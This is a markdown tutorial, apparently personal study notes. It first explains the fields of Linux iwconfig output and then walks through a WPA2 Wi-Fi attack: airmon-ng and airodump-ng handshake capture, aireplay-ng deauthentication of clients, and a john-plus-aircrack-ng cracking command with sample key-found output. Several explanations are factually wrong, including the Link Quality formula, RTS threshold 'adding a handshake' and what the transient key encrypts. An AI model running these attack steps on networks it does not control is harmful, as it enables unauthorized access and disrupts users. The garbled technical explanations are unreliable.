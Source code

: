 # This is a file explaining how wireless networking commands work on Unix systems.



The command `iwconfig` can be used to display information about the status of the wireless adapter (network card) and its connection mode.
This command extracts the information from the file `/proc/net/wireless`.
A typical output looks like this:

```bash
>>>iwconfig

lo        no wireless extensions.

eth0  no wireless extensions.

wlan1  IEEE 802.11  ESSID:"my_AP_name"  
          Mode:Managed  Frequency:5.5 GHz  Access Point: 62:E9:31:69:94:A0   
          Bit Rate=324.2 Mb/s   Tx-Power=22 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          Link Quality=48/70  Signal level=-62 dBm  
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:46   Missed beacon:0

```

### The following information are provided:

1. **ESSID** - the network name / Domain ID (not an identifier)
    - used to identify which devices are under the same network (they share the same ESSID)
2. **Mode** - under which mode the network card is currently working. The available modes are:
    - Ad-Hoc: a peer-to-peer connection between 2 or more devices
    - Managed: the network card is connected to an Access Point (AP)
    - Master: the network card is acting as an Access Point (AP)
    - Repeater: the network card is acting as a repeater (it receives and forwards packets)
    - Secondary: the network card is acting as a backup to another network card
    - Monitor: the network card is in monitor mode (it can capture all packets in the air)
    - Auto: the network card chooses the best mode automatically
3. **Frequency** - the operating frequency of the network card. Values below 1000 indicate a channel.
 (bandwitdh is split into channels to distrubute AP traffic load) Values above 1000 are frequency in Hz.
4. **Access Point (AP)** - address that specifies the network cell identity (unlike ESSID, its unique for each cell). This value is returned
as an identifier when scanning the networks
5. **Bit Rate** - bitrate for the transmission of all data, including overhead. Specifies the speed of the connection. (in bit/s)
6. **Tx-Power** - trasmit power in dBm (defined as: [ P ] = [ 30 + 10log(W) ] )
7. **Retry limit** - Specifies the number of times a packet will be resent in case the packet is not received at the receiver. There are 2 types of packets:
    - short packets: shorter version of a packet which have reduced payload
    - long packets: usual packets
8. **RTS thr** - adds a [Handshake](Four_Way_Handshake.md) to each packet increasing the overhead.
9. **Fragment thr** - splits the packets into smaller fragments which are sent separately. This increases the overhead but reduces the chance of packet loss.
10. **Power Management** - specifies if the power management is enabled or disabled. If enabled, the network card will go into sleep mode when not in use.
11. **Link Quality** - the quality of the connection. The higher the value, the better the connection. The value is calculated as follows:
    - Link Quality = (Signal level / Noise level) * 100
    - Signal level: the strength of the signal in dBm
    - Noise level: the strength of the noise in dBm
12. **Signal level** - the strength of the signal in dBm. The higher the value, the better the connection.

The command `airmon-ng` can be used to display information about the wireless adapters and their status.
A typical output looks like this:

```bash
>>>airmon-ng

PHY	Interface	Driver		Chipset
phy0	wlan1		ath9k		Qualcomm Atheros AR9485 Wireless Network Adapter (rev 01)
phy1	wlan0		ath9k_htc	Qualcomm Atheros AR9271 802.11n
```

The command `airodump-ng` can be used to display information about the wireless networks in the area.
A typical output looks like this:

```bash
>>>airodump-ng wlan1

CH  1 ][ Elapsed: 1 min ][ 2017-12-10 17:02 ][ fixed channel wlan1: -1
                                                                                                 
 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                
 62:E9:31:69:94:A0  -62       10        0    0   5  270  WPA2 CCMP   PSK  my_AP_name
```



Start the attack by executing:
```bash
sudo airmon-ng check kill 
```
This will kill all processes (for example of Network Manager) that might interfere with the attack.
To List all available networks use:

```bash
sudo airodump-ng wlan0
```
This will force the mode **Monitor** on the network adapter. To start caputring packets on a specific ESSID use:

```bash
sudo airodump-ng -w output -N <ESSID> wlan0 
```

To increase chances of getting a handshake, deauthenticate a client from the network. Here, there will be 20 deauth packets sent.
Make sure to run this command in a separate terminal window to keep the capture running.
```bash
sudo aireplay-ng -0 20 -e <ESSID> wlan0
```

Open the file containing the [Handshake](Four_Way_Handshake.md) generated by airodump-ng with the command:
```bash
aircrack-ng  *<file_name>.cap -e <ESSID>
```

To crack the password, give aircrack-ng a wordlist containing possible passwords:
```bash
john -incremental -stdout | aircrack-ng output*.cap -w - -e <ESSID>
```

The network card is still in **Monitor** mode. To set it back to **Managed** mode in order to connect to a network, use:
```bash
sudo ip link set wlan0 down
sudo iw wlan0 set type managed
sudo ip link set wlan0 up
```

Apart from that, start the NetworkManager service again:
```bash
sudo service NetworkManager restart
```

To connect to a network from the command line, use:
```bash
sudo nmtui-connect <ESSID>
```

### Password Cracking (from the handshake)
We will use a dictionary generated by john the ripper to crack the password.
The command below will generate a dictionary and pipe it to aircrack-ng. The -w - option tells aircrack-ng to read the dictionary from stdin.
Replace the output with the name of the file generated by airodump-ng.
```bash
john -incremental -stdout | aircrack-ng output*.cap -w - -e <ESSID>
```

An expected output from the command would be:
```bash
                   [00:01:39] 992510 keys tested (10078.48 k/s) 


                           KEY FOUND! [ password ]


      Master Key     : FF 56 C3 C8 8D 82 DA AB 16 E1 F2 C9 2C 3D 7C D1 
                       6B 2E 93 75 D6 C8 6A 93 1C EC C1 1D 95 D6 49 0A 

      Transient Key  : F9 42 85 BF 30 2E 27 C8 C8 A1 6F 50 D8 FA FB 65 
                       E5 93 BE 71 F8 3C CF 12 86 3D 66 2A E0 D1 6B B5 
                       90 CF 1C B6 54 21 3B 8F 7B E1 29 43 76 51 76 66 
                       52 52 C3 6E 68 B9 F5 AE 40 AF 42 28 16 37 F1 BC 

      EAPOL HMAC     : A8 91 AE 8F 8A B0 24 86 11 E9 66 C9 F8 59 DD A9 
```

In the output above, the password is **password**.
The **Master Key** is the key used to encrypt the data. The **Transient Key** is the key used to encrypt the [Handshake](Four_Way_Handshake.md).
The **EAPOL HMAC** is the hash of the [Handshake](Four_Way_Handshake.md).
The details on Master, Transient Keys and EAPOL are given in the file [Handshake](Four_Way_Handshake.md) file.








